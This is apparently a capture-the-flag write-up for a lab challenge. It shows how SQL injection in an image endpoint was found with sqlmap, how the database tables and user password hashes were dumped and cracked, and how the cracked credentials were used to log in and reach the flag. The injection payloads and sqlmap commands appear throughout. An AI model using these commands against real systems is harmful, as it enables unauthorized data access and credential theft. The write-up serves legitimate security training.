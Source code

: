 ## Navigation plan [3 pts]

Inspection of the page tells us that there is a `/system/login` endpoint and a suspicious `/image.png?type=data&t=targets&id=1` endpoint.
Playing with it for a while hints at SQLi vulnerability, so let's feed it to sqlmap: `sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1"`
and indeed it is vulnerable endpoint with MySQL >= 5.0 database and PHP 8.2.10 on Apache:
```
...
GET parameter 'type' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 1026 HTTP(s) requests:
---
Parameter: type (GET)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause
    Payload: type=data,(SELECT (CASE WHEN (6698=6698) THEN 1 ELSE 6698*(SELECT 6698 FROM INFORMATION_SCHEMA.PLUGINS) END))&t=targets&id=1

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: type=data OR (SELECT 3574 FROM(SELECT COUNT(*),CONCAT(0x7176627171,(SELECT (ELT(3574=3574,1))),0x7170626b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&t=targets&id=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: type=data AND (SELECT 6043 FROM (SELECT(SLEEP(5)))IYZq)&t=targets&id=1
---
...
```

Let's get the DB name: `sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" --current-db` -> `navigation`
Enumeration of tables: `sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" -D navigation --tables`
->
```
[3 tables]
+---------+
| files   |
| targets |
| users   |
+---------+
```

Next I tried to fetching `TARGETS.DETAIL(S)` column but apparently there isn't any column like that and I couldn't enumerate columns of the tables. So I tried dumping the `users` and see if I can login.

`sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" -D navigation -T users -C username --dump` ->
```
Database: navigation
Table: users
[3 entries]
+----------+
| username |
+----------+
| captain  |
| engeneer |
| officer  |
+----------+
```

Dumping `password` also offered cracking which I tried, using rockyou wordlist:
`sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" -D navigation -T users -C password --dump` ->

```
Database: navigation
Table: users
[3 entries]
+-------------------------------------------------------------------------------------+
| password                                                                            |
+-------------------------------------------------------------------------------------+
| 15e2b0d3c33891ebb0f1ef609ec419420c20e320ce94c65fbc8c3312448eb225 (123456789)        |
| 6a4aed6869c8216e463054dcf7e320530b5dc5e05feae6d6d22a4311e3b22ceb                    |
| 7de22a47a2123a21ef0e6db685da3f3b471f01a0b719ef5774d22fed684b2537 ($captainamerica$) |
+-------------------------------------------------------------------------------------+
```

Then I tried logging - `engineer/123456789` worked but that's a deactivated account. `captain/$captainamerica$` logged me in and I could read as that and clicking on Details for Target #4:

`FLAG{fmIT-QkuR-FFUv-Zx44}`
